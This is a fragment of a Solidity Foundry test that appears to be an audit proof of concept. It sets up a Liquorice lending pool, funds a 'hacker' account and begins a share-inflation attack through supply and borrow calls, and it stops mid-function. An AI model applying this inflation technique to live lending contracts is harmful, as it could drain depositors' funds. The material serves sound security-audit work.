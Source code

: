 ```solidity
    emit log_named_decimal_uint("DAI ", 
        IERC20(DAI).balanceOf(address(lendingPool)), 18);
    emit log_named_decimal_uint("WETH", 
        IERC20(WETH).balanceOf(address(lendingPool)), 18);

    emit log_named_decimal_uint("DAI totalDeposits", s.totalDeposits, 18);
    emit log_named_decimal_uint("DAI totalSupply", 
        IERC20(s.collateralToken).totalSupply(), 18);
    emit log_named_decimal_uint("DAI liquidity", 
        lendingPool.liquidity(DAI), 18);

    console2.log("---");
  }


  function setupPool() public {
    vm.startPrank(owner);
    AllowListAuthentication auth = 
      new AllowListAuthentication(address(repository));
    auth.addMaker(hacker);
    LiquoriceSettlement settlement = 
         new LiquoriceSettlement(auth, repository);
    repository.setSettlement(address(settlement));
    mockPriceProviderRepository.setAssetPrice(WETH, 1e18);
    vm.stopPrank();
  }

  function setupHacker() public {
    vm.prank(hacker);
    IERC20(DAI).approve(address(lendingPool), type(uint).max);

    vm.prank(hacker);
    IERC20(WETH).approve(address(lendingPool), type(uint).max);

    deal(DAI, hacker, 1000 ether);
    deal(WETH, hacker, 1000 ether);
  }

  function inflateInitial() public {
    // make 1 shares = 2 assets

    ILendingPool.AssetState memory s;

    console2.log("");
    console2.log("prepare first inflation");
    console2.log("");
    emit log_named_decimal_uint("DAI ", 
        IERC20(DAI).balanceOf(address(lendingPool)), 18);
    emit log_named_decimal_uint("WETH", 
        IERC20(WETH).balanceOf(address(lendingPool)), 18);

    s = lendingPool.getAssetState(DAI);
    emit log_named_decimal_uint("DAI totalDeposits", 
        s.totalDeposits, 18);
    emit log_named_decimal_uint("DAI totalSupply", 
        IERC20(s.collateralToken).totalSupply(), 18);

    vm.startPrank(hacker);
    lendingPool.supply(DAI, 1 ether, false);
    lendingPool.supply(WETH, 1 ether, false);
    lendingPool.borrow(DAI, 0.5 ether);

    vm.warp(block.timestamp + 1 seconds);
```